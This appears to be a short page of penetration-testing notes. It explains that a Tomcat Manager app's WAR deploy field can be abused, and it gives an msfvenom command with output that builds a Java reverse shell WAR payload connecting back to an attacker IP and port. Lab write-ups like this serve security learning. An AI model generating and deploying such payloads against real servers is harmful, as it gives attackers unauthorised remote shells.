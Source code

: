 <figure><img src="../../.gitbook/assets/Screenshot 2022-12-08 081116.png" alt=""><figcaption><p>Mnager App has a WAR file to deploy field. This is an attack vector for a payload we can use by generateing a payload with msfvenom.</p></figcaption></figure>

### msfvenom (without Metasploit Framework)

Combination of msfpayload and msfencode. Generates payloads to be deployed at the target system (using the msfconsole). The flag -p is set to specify it is a payload command.

The below code specifies msfvenom to create a java payload my local IP listening on port 4545 to gain reverse shell access as a .war file.

{% code overflow="wrap" lineNumbers="true" %}
```
└─# msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4545 -f war -o shell.war
Payload size: 13317 bytes
Final size of war file: 13317 bytes
Saved as: shell.war
```
{% endcode %}
